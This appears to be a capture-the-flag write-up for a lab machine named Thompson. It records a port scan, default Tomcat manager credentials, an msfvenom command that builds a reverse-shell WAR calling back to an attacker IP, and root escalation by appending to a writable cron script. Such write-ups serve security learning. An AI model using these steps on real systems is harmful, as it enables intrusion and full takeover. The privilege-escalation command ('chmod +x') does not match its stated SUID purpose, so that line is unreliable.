








# Thompson

**Hostname:** `ubuntu`

**OS:** `Ubuntu Linux`

**Users:**
```
jack
```

**Credentials:**

*Tomcat Manager:*
```
tomcat:s3cret
```

## Port Scan:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-title: Apache Tomcat/8.5.5
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- OpenSSH 7.2p2
- Apache Jserv (Protocol v1.3)
- Apache Tomcat 8.5.5

## Content Discovery:

### Port 8080:
- Apache Tomcat Manager App:
	- Default credentials exposed via error message

### Machine enumeration:

#### Cron jobs
```
# m h dom mon dow user  command
*  *    * * *   root    cd /home/jack && bash id.sh
```

## Foothold / Privilege Escalation:

### Initial Foothold

I have gained initial access through misconfigured Apache Tomcat instance running on port 8080. It was misconfigured in a way that an error message disclosed the admins default credentials.




I used these credentials to login into the Manager App where I can upload my own WAR files.




To get access I used msfvenom to generate a .war file containing my reverse shell payload.
```
msfvenom -p java/shell_reverse_tcp lhost="10.23.113.200" lport="8081" -f war -o shell.war
```
- This command will generate a malicious reverse shell and output it to a WAR file which I uploaded to the server using the Manager App

After uploading I setup a listener on the specified port in my case 8081, and executed the payload by just visiting the site in my case /shell.




By visiting **/shell** the payload executes and I get a connection to my listener.



---
### Privilege Escalation:

To elevate my privileges to root I exploited a shell script called id.sh that was set to run as a cron job which I found inside a real user's home directory.




It was exploitable due to the script being available to everyone, and since it would run as the root user, I could just append a reverse shell command or set the SUID bit on the /bin/bash binary.

I added a SUID bit on the /bin/bash binary with the command:

```
echo "chmod +x /bin/bash" >> id.sh
```
After the cron job executes I get a root shell by either of the methods.





## Journal:
- Check cron jobs and what permissions do I have on the files they are running